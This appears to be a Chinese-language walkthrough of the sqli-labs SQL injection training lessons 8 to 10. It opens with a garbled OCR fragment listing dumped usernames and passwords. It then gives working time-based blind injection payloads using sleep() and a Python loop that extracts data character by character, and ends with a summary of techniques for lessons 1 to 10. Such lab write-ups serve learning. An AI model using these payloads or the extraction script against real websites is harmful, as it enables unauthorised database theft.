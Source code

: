 i d
u s e r n a m e
p a s s w o r d

D u m b
I - k i l l - y o u
p @ s s w o r d
c r a p p y
s t u p i d i t y
g e n i o u s
m o b ! l e
a d m i n
a d m i n 1
a d m i n 2

思路也是一样，依此通过 库->表->列->数据 这样来依此获取。虽然写的有点菜，但勉强能用把，以后会二分了再来优化下好了。。  

### less-9

发现不管怎么测试,SQL语句有无错误，显示都是相同的。这点通过查看源码也能验证，所以，通过sleep函数，来检测是否有可以注入 `?id=1' and sleep(5) %23` sleep时会呈现这种阻塞状态，时间为sleep中的参数（秒），所以就通过有无阻塞来判断if的第一个参数是否为真 if的用法：if（a，b，c），a为真时返回b，否则返回c。所以payload中前者为假则进入阻塞 ![](http://www.kingkk.com/wp-content/uploads/2017/12/95dcae83398838fae92227832d240ec6.png) 然后附上payload:`?id=1' and if(ascii(substr((select database()),1,1))>130,0,sleep(3)) %23`(因为是本地服务器，延迟较小，sleep时间可以缩短些，实际注入中要按网络延迟来判定) 接下来代码部分和之前less-8几乎一样，只要将payload部分，以及判断语句修改一下即可，下面仅附上loop部分的代码

def loop(sql):
	info = ""
	asc_range = \[0\]+range(20,123)
	for i in xrange(1,20):    
		for x in asc_range:
			**params = {'id':"1' and if(ascii(substr(({2}),{1},1))>{0},0,sleep(3)) #".format(x,i,sql)}** 			**start_time = time()**  //time（）函数需要提前 from time import time 导入
			**r = requests.get(url,params=params)
			end_time = time()
			con\_time = end\_time-start_time** 			**if con_time>3:** 				if x==0:
					print 
					return info
				break;
		print chr(x),
		info+=chr(x)

   

### less-10

依旧基于时间的布尔盲注，只是引号是双引号，稍微修改下payload即可 `id=1' and sleep(3)%23` 脚本也就不放了，也就是把payload部分改了就行，和less-9几乎完全一样  

### 总结：

最后来总结下这less1-10

*   `less-1 基于单引号的字符型注入`：闭合单引号即可
*   `less-2 基于错误的get整型注入`：无需闭合单引号
*   `less-3 基于错误的get单引号变形字符型注入`： 根据错误提示，闭合括号与单引号
*   `less-4 基于错误的get双引号字符型注入`: 根据错误提示闭合双引号与括号
*   `less-5 双注入get单引号字符型注入`： 通过联合使用 count(*)、group by 、concat_ws()、floor(rand()*2)的形式将数据通过报错显示出来
*   `less-6 双注入get双引号字符型注入`：同上，闭合号使用双引号即可
*   `less-7 导出文件get字符型注入`：通过into outfile导入与导出文件
*   `less-8 布尔型单引号get盲注`：通过连接and ascii(substr((xxx),1,1))>64的形式，根据返回页面不同判定数据
*   `less-9 基于时间的GET单引号盲注`: 通过if 以及sleep函数，根据响应的时间判断数据
*   `less-10 基于时间的双引号盲注`：同上，闭合符号使用双引号即可
